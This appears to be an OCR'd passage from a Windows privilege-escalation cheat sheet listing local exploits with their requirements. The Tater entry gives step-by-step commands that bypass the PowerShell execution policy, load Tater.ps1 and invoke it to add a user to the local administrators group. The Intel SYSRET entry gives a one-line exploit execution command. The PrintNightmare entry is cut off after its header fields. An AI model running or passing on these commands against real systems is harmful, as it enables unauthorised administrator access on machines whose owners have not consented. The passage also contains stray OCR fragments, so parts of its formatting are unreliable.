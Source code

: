 Domain: No

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

In command prompt type: powershell.exe -nop -ep bypass

2\.

In Power Shell prompt type: Import-Module
C:\\Users\\User\\Desktop\\Tools\\Tater\\Tater.ps1

3\.

In Power Shell prompt type: Invoke-Tater -Trigger 1 -Command \"net
localgroup

administrators user /add\"

4\.

To confirm that the attack was successful, in Power Shell prompt type:

net localgroup administrators

<a name="intel-sysret"></a>
# Intel SYSRET

Domain: No

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

execute -H -f sysret.exe -a \"-pid \[pid\]"

<a name="printnightmare"></a>
# PrintNightmare

Domain: Yes

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit
